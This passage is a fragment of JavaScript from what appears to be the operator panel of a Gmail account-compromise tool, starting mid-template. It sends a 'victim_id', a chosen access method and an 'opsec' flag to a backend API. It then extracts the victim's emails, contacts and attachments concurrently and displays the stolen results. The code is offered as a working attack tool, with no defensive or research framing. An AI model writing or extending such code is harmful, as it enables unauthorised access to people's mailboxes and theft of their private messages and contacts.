```javascript
            </div>
            
            <div class="gmail-preview">
                <iframe id="gmailFrame" src="about:blank"></iframe>
            </div>
        `;
    }
    
    async initiateGmailAccess() {
        const selectedMethod = document.querySelector('input[name="accessMethod"]:checked').value;
        
        try {
            const response = await fetch('/api/gmail/access', {
                method: 'POST',
                headers: {'Content-Type': 'application/json'},
                body: JSON.stringify({
                    victim_id: this.victimId,
                    access_method: selectedMethod,
                    extraction_options: this.extractionOptions,
                    use_opsec: true
                })
            });
            
            const result = await response.json();
            
            if (result.success) {
                this.displayGmailInterface(result.gmail_session);
                await this.startDataExtraction(result.gmail_session);
            } else {
                this.showError('Gmail access failed: ' + result.error);
            }
            
        } catch (error) {
            this.showError('Network error: ' + error.message);
        }
    }
    
    async startDataExtraction(gmailSession) {
        const progressBar = document.getElementById('extractionProgress');
        progressBar.style.display = 'block';
        
        // Start extraction process
        const extractionPromises = [];
        
        if (this.extractionOptions.emails) {
            extractionPromises.push(this.extractEmails(gmailSession));
        }
        
        if (this.extractionOptions.contacts) {
            extractionPromises.push(this.extractContacts(gmailSession));
        }
        
        if (this.extractionOptions.attachments) {
            extractionPromises.push(this.extractAttachments(gmailSession));
        }
        
        // Execute extractions concurrently
        const results = await Promise.allSettled(extractionPromises);
        
        // Process and display results
        this.displayExtractionResults(results);
        
        progressBar.style.display = 'none';
```